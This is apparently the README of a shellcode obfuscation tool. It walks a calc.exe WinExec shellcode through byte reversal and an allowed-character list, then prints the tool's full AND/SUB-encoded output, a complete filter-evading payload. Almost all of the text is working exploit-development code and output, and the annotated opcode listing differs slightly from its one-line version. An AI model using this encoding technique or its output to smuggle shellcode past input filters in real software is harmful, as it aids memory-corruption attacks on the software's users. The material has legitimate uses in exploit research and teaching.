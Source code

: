 # subencoder
subencoder - shellcode obfuscater

Calc.exe Shellcode:

"\x33\xc0" 			         => XOR EAX,EAX | Zero out EAX register 
"\x50" 				           => PUSH EAX | Push EAX to have null-byte padding for "calc.exe" 
"\x68\x2E\x65\x78\x65"   => PUSH ".exe" 
"\x68\x63\x61\x6C\x63"   => PUSH "calc" 
"\x8B\xC4" 			         => MOV EAX,ESP | Put a pointer to the ASCII string in EAX 
"\x6A\x01" 			         => PUSH 1 | Push uCmdShow parameter to the stack 
"\x50" 				           => PUSH EAX | Push the pointer to lpCmdLine to the stack 
"\x85\x6a\xe9\x77" 	     => MOV EBX, 77e96a85 | Move the pointer to WinExec() into EBX 
"\xFF\xD3" 			         => CALL EBX | Call WinExec()

In one line:
\x33\xc0\x50\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x8B\xC4\x6A\x01\x50\xBB\x85\x6a\xe9\x77\xFF\xD3

Group it int groups of 4 bytes
33c05068
2E657865
6863616C
638BC46A
0150BB85
6AE977FF
D3

Revert it and 0 pad:
D3		    -> 000000D3
6AE977FF  -> FF77E96A
0150BB85  -> 8BBB5001
638BC46A  -> 6AC48B63
6863616C  -> 6C616368
2E657865  -> 6578652E
33c05068  -> 6850C033

ShellCode 4 byte reversed in one line:
000000D3FF77E96A8BBB50016AC48B636C6163686578652E6850C033

Allowed Char File (2-digit hex):
02030405060708090b0c0e0f101112131415161718191a1b1c1d1e1f202122232425262728292a2b2c2d2e303132333435363738393b3c3d3e4142434445464748494a4b4c4d4e4f505152535455565758595a5b5c5d5e5f606162636465666768696a6b6c6d6e6f707172737475767778797a7b7c7d7e7f

Generate shellcode:
$ ./subencoder shellcode.txt allowedchars.txt
Address: 0x000000D3
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x74747414
SUB EAX, 0x75757503
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50

Address: 0xFF77E96A
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x04040404
SUB EAX, 0x7e280428
SUB EAX, 0x7e5c0e6a
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50

Address: 0x8BBB5001
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x48747474
SUB EAX, 0x0f740f74
SUB EAX, 0x1c5c2c17
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50

Address: 0x6AC48B63
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x3e0e3e3e
SUB EAX, 0x572d365f
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50

Address: 0x6C616368
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x31313131
SUB EAX, 0x626d6b67
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50

Address: 0x6578652E
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x2d2d2d79
SUB EAX, 0x6d5a6d59
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50

Address: 0x6850C033
-------------------
AND EAX,554E4D4A
AND EAX,2A313235
SUB EAX, 0x204b206f
SUB EAX, 0x77641f5e
Result: 
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50

$ cat output.txt
\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x14\x74\x74\x74\x2D\x03\x75\x75\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x04\x04\x04\x04\x2D\x28\x04\x28\x7e\x2D\x6a\x0e\x5c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x74\x74\x74\x48\x2D\x74\x0f\x74\x0f\x2D\x17\x2c\x5c\x1c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x3e\x3e\x0e\x3e\x2D\x5f\x36\x2d\x57\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x31\x31\x31\x31\x2D\x67\x6b\x6d\x62\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x79\x2d\x2d\x2d\x2D\x59\x6d\x5a\x6d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2D\x6f\x20\x4b\x20\x2D\x5e\x1f\x64\x77\x50


